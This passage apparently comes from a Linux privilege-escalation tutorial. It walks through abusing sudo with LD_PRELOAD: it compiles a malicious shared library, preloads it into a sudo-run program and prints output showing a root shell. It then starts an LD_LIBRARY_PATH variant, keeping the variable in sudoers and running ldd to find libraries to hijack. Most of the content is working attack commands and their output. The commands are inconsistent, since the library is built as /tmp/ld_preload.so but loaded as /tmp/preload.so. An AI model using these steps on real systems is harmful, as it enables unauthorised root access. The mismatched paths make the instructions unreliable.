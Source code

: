 ```shell
gcc -fPIC -shared -nostartfiles -o /tmp/ld_preload.so ld_preload.c
```

Set the `LD_PRELOAD` environment variable to the full path of the preload and run any permitted program using `sudo` as a result:

```shell
$ sudo LD_PRELOAD=/tmp/preload.so <any_allowed_program>
```

This will elevate the user to UID 0:

```shell
user@pwn:~$ sudo LD_PRELOAD=/tmp/preload.so bash 2>/dev/null
id
uid=0(root) gid=0(root) groups=0(root)
whoami
root
```

# Privilege Escalation via LD_LIBRARY_PATH

The LD_LIBRARY_PATH environment variable specifies which directories should be examined first for shared libraries.

Edit the sudo configuration file:

```shell
sudo visudo
```

The `/etc/sudoers` configuration:

```shell
Defaults	env_reset
Defaults env_keep+=LD_LIBRARY_PATH
```

List the current allowed programs and the default entries:

```shell
user@pwn:~$ sudo -l
Matching Defaults entries for user on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, env_keep+=LD_LIBRARY_PATH

User user may run the following commands on ubuntu:
    (ALL : ALL) ALL
user@pwn:~$ 
```

The `ldd` command can be used to print a program's shared libraries (.so files):

```shell
user@pwn:~$ ldd /usr/sbin/useradd
	linux-vdso.so.1 (0x00007ffd25340000)
	libaudit.so.1 => /lib/x86_64-linux-gnu/libaudit.so.1 (0x00007ff9af392000)
	libselinux.so.1 => /lib/x86_64-linux-gnu/libselinux.so.1 (0x00007ff9af367000)
	libsemanage.so.1 => /lib/x86_64-linux-gnu/libsemanage.so.1 (0x00007ff9af324000)
	libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007ff9af132000)
	libcap-ng.so.0 => /lib/x86_64-linux-gnu/libcap-ng.so.0 (0x00007ff9af12a000)
	libpcre2-8.so.0 => /lib/x86_64-linux-gnu/libpcre2-8.so.0 (0x00007ff9af09a000)
	libdl.so.2 => /lib/x86_64-linux-gnu/libdl.so.2 (0x00007ff9af092000)
	/lib64/ld-linux-x86-64.so.2 (0x00007ff9af3f5000)
	libsepol.so.1 => /lib/x86_64-linux-gnu/libsepol.so.1 (0x00007ff9aefe0000)
	libbz2.so.1.0 => /lib/x86_64-linux-gnu/libbz2.so.1.0 (0x00007ff9aefcd000)
	libpthread.so.0 => /lib/x86_64-linux-gnu/libpthread.so.0 (0x00007ff9aefaa000)
```
